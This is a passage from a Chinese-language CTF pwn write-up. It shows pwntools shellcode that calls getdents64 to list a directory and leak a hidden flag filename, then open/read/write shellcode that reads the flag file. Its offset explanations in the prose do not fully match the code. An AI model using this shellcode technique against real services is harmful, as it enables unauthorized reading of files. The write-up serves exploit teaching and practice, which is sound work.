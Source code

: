 我们需要先构造写到 bss 段的 read 函数来读入目录名

[![](assets/1698893341-6500445ba4eb292124875849e96b4d2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121905-cd14ef0a-73b6-1.png)

```bash
#OGW
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss+0x300, 0x100))
shellcode += asm(shellcraft.write(1,bss+0x300, 0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

p.send(shellcode)
```

这里核心是 getdents64 系统调用，它读取目录文件中的一个个目录项 (directory entry) 并返回

我们首先在 bss+0x30 构造了第一个 read 用于下面读取'./'，ogw 实现将 getdents64 读取的目录参数读入 bss+0x100，再打印出来

```bash
p.recvuntil('flag')
flag20 = b'flag'+p.recv(20)
print(flag20) #flag16db44a3ec6a5c404373
```

[![](assets/1698893341-c3469a33af439fc73e270324393fde57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121922-d71d9c36-73b6-1.png)

接受到 flag 文件名后我们便可以通过构造第二个 read 输入'flag16db44a3ec6a5c404373'构成 './flag16db44a3ec6a5c404373' ，然后通过 orw 读写放入 bss+0x200 段的 flag 文件的内容

```bash
#read(0,bss+0x400,0x100)
p.sendline('-1')

#ORW
p.recvuntil('done!\n')
shellcode = b''
shellcode += asm(shellcraft.open('flag16db44a3ec6a5c404373'))
shellcode += asm(shellcraft.read(4,bss+0x600,0x100))
shellcode += asm(shellcraft.write(1,bss+0x600,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
p.send(shellcode)
```
